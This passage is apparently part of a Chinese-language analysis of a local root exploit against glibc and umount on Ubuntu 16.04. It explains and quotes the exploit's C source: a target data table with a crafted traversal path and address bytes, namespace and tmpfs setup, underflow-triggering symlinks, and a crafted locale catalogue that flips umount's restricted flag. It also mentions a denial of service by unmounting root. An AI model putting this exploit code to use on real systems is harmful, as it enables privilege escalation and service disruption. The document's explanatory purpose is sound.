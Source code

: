 在安装文件系统时，挂载点目录的原始内容会被隐藏起来并且不可用，直到被卸载。但是，挂载点目录的所有者和权限没有被隐藏，其中 `restricted` 标志用于限制堆挂载文件系统的访问。如果我们将该值覆盖，umount 会误以为挂载是从 root 开始的。于是可以通过卸载 root 文件系统做到一个简单的 DoS（如参考文章中所示，可以在Debian下尝试）。

当然我们使用的 Ubuntu16.04 也是在漏洞利用支持范围内的：

```c
static char* osSpecificExploitDataList[]={
// Ubuntu Xenial libc=2.23-0ubuntu9
    "\"16.04.3 LTS (Xenial Xerus)\"",
    "../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A",
    "_nl_load_locale_from_archive",
    "\x07\0\0\0\x26\0\0\0\x40\0\0\0\xd0\xf5\x09\x00\xf0\xc1\x0a\x00"
    };
```

`prepareNamespacedProcess()` 函数如下所示：

```c
static int usernsChildFunction() {
  [...]
  int result=mount("tmpfs", "/tmp", "tmpfs", MS_MGC_VAL, NULL);	// 将 tmpfs 类型的文件系统 tmpfs 挂载到 /tmp
  [...]
}

pid_t prepareNamespacedProcess() {
  if(namespacedProcessPid==-1) {
    [...]
    namespacedProcessPid=clone(usernsChildFunction, stackData+(1<<20),
        CLONE_NEWUSER|CLONE_NEWNS|SIGCHLD, NULL);	// 调用 clone() 创建进程，新进程执行函数 usernsChildFunction()
    [...]
  char pathBuffer[PATH_MAX];
  int result=snprintf(pathBuffer, sizeof(pathBuffer), "/proc/%d/cwd",
     namespacedProcessPid);
  char *namespaceMountBaseDir=strdup(pathBuffer);	// /proc/[pid]/cwd 是一个符号连接, 指向进程当前的工作目录

// Create directories needed for umount to proceed to final state
// "not mounted".
  createDirectoryRecursive(namespaceMountBaseDir, "(unreachable)/x");	// 在 cwd 目录下递归创建 (unreachable)/x。下同
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/C.UTF-8/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/X.X/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "(unreachable)/tmp/%s/X.x/LC_MESSAGES", osReleaseExploitData[2]);
  createDirectoryRecursive(namespaceMountBaseDir, pathBuffer);

// Create symlink to trigger underflows.
  result=snprintf(pathBuffer, sizeof(pathBuffer), "%s/(unreachable)/tmp/down",
      namespaceMountBaseDir);
  result=symlink(osReleaseExploitData[1], pathBuffer);	// 创建名为 pathBuffer 的符号链接
  [...]

// Write the initial message catalogue to trigger stack dumping
// and to make the "umount" call privileged by toggling the "restricted"
// flag in the context.
  result=snprintf(pathBuffer, sizeof(pathBuffer),
      "%s/(unreachable)/tmp/%s/C.UTF-8/LC_MESSAGES/util-linux.mo",
      namespaceMountBaseDir, osReleaseExploitData[2]);	// 覆盖 "restricted" 标志将赋予 umount 访问已装载文件系统的权限

  [...]
```